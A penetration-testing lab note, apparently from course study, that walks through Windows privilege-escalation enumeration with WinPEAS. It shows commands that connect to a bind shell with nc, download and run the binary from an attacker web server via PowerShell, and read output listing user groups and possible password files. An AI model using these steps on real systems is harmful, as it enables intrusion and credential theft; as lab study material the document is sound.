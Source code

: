 Copy WinPEAS to our home directory and start Python3 web server

`cp /usr/share/peass/winpeas/winPEASx64.exe .`

`python3 -m http.server 80`

Connect to the bind shell 

`nc 192.168.50.220 4444`

Transfer the WinPEAS binary to CLIENTWK220 using powershell

`iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe`

Execute #winPEAS `.\winPEAS.exe`

Output legend of winPEAS

```
+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links
```

Reviewing winPEAS output:

 Basic System Information of winPEAS

````
OS Version: 10.0.22621 N/A Build 22621
````

```
ProductName: Windows 10 Pro
```

 List of transcript files

```
����������͹ PS default transcripts history
� Read the PS history inside these files (if any)
```

User information (truncated)

```
Current user: dave
Current groups: Domain Users, Everyone, helpdesk, Builtin\Remote Desktop Users, Users, Batch, Console Logon, Authenticated Users, This Organization, Local account, Local, NTLM Authentication
```

Possible password files in home directory of _dave_

```
����������͹ Looking for possible password files in users homes
�  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
```
